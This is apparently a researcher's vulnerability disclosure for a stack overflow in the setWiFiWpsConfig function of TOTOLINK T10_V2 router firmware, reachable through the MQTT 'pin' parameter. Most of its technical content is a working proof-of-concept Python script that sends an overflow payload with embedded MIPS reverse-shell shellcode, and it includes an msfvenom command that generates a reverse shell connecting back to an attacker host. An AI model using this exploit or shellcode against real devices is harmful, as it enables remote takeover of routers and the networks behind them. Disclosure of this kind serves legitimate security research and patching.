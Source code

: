 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36 <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setWiFiWpsConfig**. Attackers can send dirty data by mqtt packet into parameter **pin** to control the return address and execute shellcode. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/wps.so** <br>

In the function **setWiFiWpsConfig**, the content obtained by program through parameter **pin** given by MQTT data packet is passed to variable **v11**. Then, the variable **v11** will copy to the variable **v22**, however,**v22** is on the stack,but there isn't any length check of **v11**.So we can set **wscMode** = **1** and **wscPinMode** = **1** to execute **strncpy**,and set the length of **pin's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/0.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **pin** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

test = "a"*60 + "\x44\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setWiFiWpsConfig',payload='{"topicurl":"setting/setWiFiWpsConfig","WiFiIdx":"0","PINPBCRadio":"1","PINMode":"1","PIN":"'+test+'"}'+'bling'+buf)
```
**PS:**
The offset maybe different in each device. <br>
**\x44\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
sfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========
Because of Lazy binding mechanism，so we can send some short dirty data at first, the execute our exploit.





    
    

  
